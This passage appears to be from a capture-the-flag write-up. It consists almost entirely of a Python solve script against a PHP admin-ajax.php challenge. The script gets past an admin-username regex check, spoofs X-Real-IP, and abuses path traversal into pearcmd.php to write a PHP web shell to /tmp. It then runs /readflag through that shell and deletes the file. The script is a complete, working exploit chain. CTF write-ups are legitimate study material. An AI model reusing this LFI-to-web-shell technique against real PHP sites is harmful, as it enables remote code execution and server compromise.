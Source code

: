 ## Obtaining the Flag

Here is my solve script to solve this challenge:

```python
import httpx
import asyncio
import re
from subprocess import check_output
URL = "http://3.14.248.34:9001/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

    def login(self):
        return self.c.post("/wp-admin/admin-ajax.php", data={
            "action": "login",
            # bypass preg_match('/(admin)+/s', $_POST['username'])
            "username": "admin"*9000,
        })
    def upload_shell(self):
        # bypass date
        lfi = r"../../../../../../../../../../../\u\s\r/\l\o\c\a\l/\l\i\b/\p\h\p/\p\e\a\r\c\m\d"
        sessid = self.c.cookies.get("PHPSESSID")
        return check_output([
            'curl',
            '-X', 'POST', URL + f'''wp-admin/admin-ajax.php?+-c+/tmp/foo.php+-d+man_dir=<?system($_GET\\[0\\]);?>+-s+''',
            '-d', f'action=news&date={lfi}',
            '-H', 'X-Real-IP: 127.0.0.1',
            '-H', f'Cookie: PHPSESSID={sessid}'
        ])

    async def get_flag(self):
        res = await self.c.post(f"wp-admin/admin-ajax.php", data={
            "action": "news",
            # bypass date
            "date": r"../../../../../../../../\t\m\p/\f\o\o"
        }, headers={
            "X-Real-IP": "127.0.0.1"
        }, params={
            "0": "/readflag && rm /tmp/foo.php"
        })
        flag = re.search(r"CTF\{.*\}", res.text).group()
        return flag


class API(BaseAPI):
    ...

async def main():
    api = API()
    res = await api.login()
    # print(res.text)
    res = api.upload_shell()
    # print(res)
    res = await api.get_flag()
    print(res)

if __name__ == "__main__":
    asyncio.run(main())
```
